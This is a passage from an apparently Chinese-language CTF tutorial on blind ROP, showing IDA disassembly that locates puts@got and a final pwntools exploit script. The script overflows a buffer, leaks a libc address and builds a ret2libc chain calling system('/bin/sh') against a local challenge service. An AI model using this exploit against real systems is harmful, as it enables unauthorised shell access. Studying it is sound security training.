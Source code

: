 ```
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然后按下 c, 将此处的数据转换为汇编指令，如下：

```
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

这说明，puts@got 的地址为 0x601018。

#### 最终：

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

